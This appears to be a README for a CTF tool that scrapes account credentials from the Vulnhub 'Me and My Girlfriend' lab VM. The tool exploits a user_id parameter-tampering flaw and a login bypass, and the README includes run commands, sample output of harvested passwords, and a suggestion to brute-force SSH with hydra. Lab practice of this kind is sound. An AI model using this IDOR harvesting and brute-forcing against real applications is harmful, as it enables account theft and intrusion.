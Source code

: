 # MeAndMyGirl-CTF-Creds-Harvester
A not so robust script for harvesting the credentials of the Me and My Girlfriend CTF's web app accounts. The script achieves this by exploiting the parameter tampering privilege escalation flaw at `http://x.x.x.x/index.php?page=profile&user_id=x`. The results are written to a `master.*`, `unames.*` and `pwords.*` files the `unames` and `pwords` can be use with `hydra` to bruteforce the ssh service of the VM. 

# Usage
## Obtain authenticated session cookie
- **Option 1:** Register an account, then login and copy the session cookie's value from your network tab of the developer tools.
- **Option 2:** Navigate to `http://x.x.x.x/misc/process.php?act=login` the app will bypass login, then copy the session cookie's value from your network tab of the developer tools.

## Run scrape.py
```
python3 scrape.py 192.168.56.123 -sessid r4irnlb966u3b7a6sv0iupc1m4 -suid 1 -euid 5
```
```
python3 scrape.py 192.168.56.123:8080 -sessid r4irnlb966u3b7a6sv0iupc1m4 -suid 1 -euid 5
```
> **Note:** The first argument to the script should be the address of the VM.
> 

## Example
```
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Me_and_My_Girlfriend]
└─$ ./scrape.py 192.168.56.121 -sessid r4irnlb966u3b7a6sv0iupc1m4 -suid 1 -euid 7
[i] Requests:
http://192.168.56.121/index.php?page=profile&user_id=1 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=2 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=3 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=4 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=5 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=6 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=7 [ SUCC, Status: 200 ]
[i] Scraped 5 credentials
eweuhtandingan:skuyatuh
aingmaung:qwerty!!!
sundatea:indONEsia
sedihaingmah:cedihhihihi
alice:4lic3
[*] Done!
```

